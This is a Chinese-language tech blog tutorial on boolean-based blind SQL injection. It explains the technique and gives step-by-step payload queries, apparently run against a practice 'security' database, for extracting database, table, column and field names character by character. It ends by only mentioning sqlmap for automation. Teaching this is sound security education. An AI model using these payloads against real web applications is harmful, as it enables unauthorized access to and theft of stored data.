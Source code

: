 ```yaml
---
title: 布尔注入与脚本自动化的简单实现
toc: true
categories: Tech Blog
abbrlink: 56d1200a
date: 2023-07-23 00:00:00
updated: 2023-07-23 00:00:00
---
```


## 布尔注入简介

在注入过程中我们只能直接知道注入成功与否而不知道注入得到的回显甚至都不能直接知道注入是否成功的注入叫做盲注。盲注可能是真的是在完全黑盒情况下完全盲注，也可能通过侧信道攻击通过一些特殊手段能判断出命令执行是否成功，例如时间盲注。
<!--more-->
## 简单原理介绍

在我们能通过某种方式判断注入执行结果成功与否，例如 Web 页面返回 True 或 False 时，我们可以使用 and, or 关键字配合一些语句得到后台数据信息，包括但不限于:

- ascii()
返回字符 ASCII 码值
- length()
返回字符串长度
- left()
返回从左到右截取的一定长度的字符串
- substr()
返回从指定位置开始截取的一定长度的子字符串
我们可以在一句总是正确的 SQL 语句后使用 and 关键字或者在一句总是错误的语句后使用 or 关键字配合这些语句，通过组合后的语句的执行结果判断我们拼凑上去的语句的执行结果。在这一点的基础上，我们可以做到得到数据库名表名列名字段名等等效果

## 一般注入流程

- 求当前数据库的数据库名长度

        -- length 返回长度
        -- 8 是当前数据库'security'的长度
        SELECT * from users WHERE id = 1 and (length(database())= 8)
        -- 也可以使用 > 、< 符号来进一步缩小范围
        SELECT * from users WHERE id = 1 and (length(database())> 8)
        -- 当长度正确就页面就显示正常，其余页面则显示错误
        -- substr 返回子字符串
        -- 8 是当前数据库'security'的长度 ，从第 8 个开始，取 1 位，则是'r'
        -- 如果 pos 为 9 那么开始位置大于字符串长度，ascii 函数处理后将变成 false
        -- and 后只要不为 0, 页面都会返回正常
        SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))
- 求当前数据库名

        -- 从左至右截取一个字符
        SELECT * from users WHERE id = 1 and (left(database(),1)='s')
        -- 从左只有截取两个字符
        SELECT * from users WHERE id = 1 and (left(database(),2)='se')
        
        SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),1,1)) = 115)
        SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),2,1)) = 101)

- 求当前数据库中表的个数

        SELECT * from users WHERE id = 1 AND 
        (select count(table_name) from information_schema.`TABLES` where table_schema = database()) = 4
- 求当前数据库表的表名长度

        -- length
        SELECT * from users WHERE id = 1 
        AND (LENGTH((select table_name from information_schema.`TABLES` where table_schema = database() LIMIT 0,1))) = 6
        
        -- substr
        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),6,1))

- 求当前数据库表的表名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),1,1)) = 101 -- e
        
        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),2,1)) = 109 -- m

- 求指定表中列的数量

        SELECT * from users WHERE id = 1 
        AND (select count(column_name) from information_schema.columns where table_name = "users") = 3

- 求指定表中列的长度

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),2,1))

- 求指定表中的列名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),1,1)) = 105

- 求指定表中某字段的数量

        SELECT * from users WHERE id = 1 
        AND (select count(username) from users) = 13
- 求字段长度

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select username from users  limit 0,1),4,1))
- 求字段名

        SELECT * from users WHERE id = 1 
        AND ASCII(SUBSTR((select username from users  limit 0,1),1,1))  = 68

## 布尔注入的自动化

由于猜解后端信息需要执行大量的 SQL 注入语句，因此我们常常编写脚本自动完成这一重复性工作，例如 **SQLMAP 一把梭** : P
